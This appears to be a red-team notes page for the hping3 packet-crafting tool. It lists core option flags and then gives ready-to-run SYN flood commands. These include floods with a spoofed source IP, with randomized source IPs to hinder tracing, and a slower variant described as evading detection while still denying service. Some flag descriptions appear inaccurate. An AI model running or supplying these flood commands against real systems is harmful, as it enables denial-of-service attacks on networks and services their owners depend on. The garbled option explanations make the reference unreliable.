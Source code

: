 # HPing3
- [[Red Team/4. Tool Guides/0. Incomplete/Tool Guides]]

## Commands and Usage

Hping3 is a powerful packet crafting tool commonly used for network testing, security auditing, and firewall testing. It allows the manipulation of various network protocols and provides control over nearly every aspect of packet generation. This ultimate edition of the cheat sheet provides an exhaustive list of Hping3 commands, detailed explanations, and advanced usage scenarios.

## Basic Syntax
```bash
hping3 [options] <target_ip>
```

## Core Options
- `-S`: Send SYN packets.
- `-A`: Send ACK packets.
- `-F`: Send FIN packets.
- `-P`: Send PUSH packets.
- `-R`: Send RST packets.
- `-U`: Send UDP packets.
- `-Y`: Send TCP packets with the ACK flag set.
- `-X`: Send TCP packets with the FIN and PSH flags set.
- `-1`: Send ICMP Echo Request.
- `-2`: Send UDP packets (another method).
- `-9`: Listen mode for a signature-based IDS.
- `-p <target_port>`: Set target port.
- `-s <attack_port>`: Set source port.
- `-c <count>`: Number of packets to send.
- `-i <interval>`: Time between packets, in seconds.
- `-d <data_size>`: Size of packet data.
- `-E <file>`: Add payload from file.
- `-a <source_ip>`: Spoof source IP address.
- `--flood`: Send packets as fast as possible.
- `--rand-source`: Randomize source IP address.

# Commands and Use Cases

#### SYN Flooding Techniques

1. **Basic SYN Flood**: Generates a flood of SYN packets to overwhelm the target's TCP stack.
    ```bash
    hping3 -S --flood -V -p <target_port> <target_ip>
    ```
2. **SYN Flood with Spoofed IP**: Sends SYN packets with a spoofed source IP, making it harder to trace back to the attacker.
    ```bash
    hping3 -S --flood -a <spoofed_ip> -p <target_port> <target_ip>
    ```
3. **SYN Flood with Randomized Source IPs**: Randomizes the source IP address in each SYN packet, further obfuscating the attack.
    ```bash
    hping3 -S --flood --rand-source -p <target_port> <target_ip>
    ```
4. **Slow SYN Flood**: Sends SYN packets at a slower rate (every 1ms), designed to evade detection while still causing denial of service.
    ```bash
    hping3 -S -p <target_port> --flood -i u1000 <target_ip>
    ```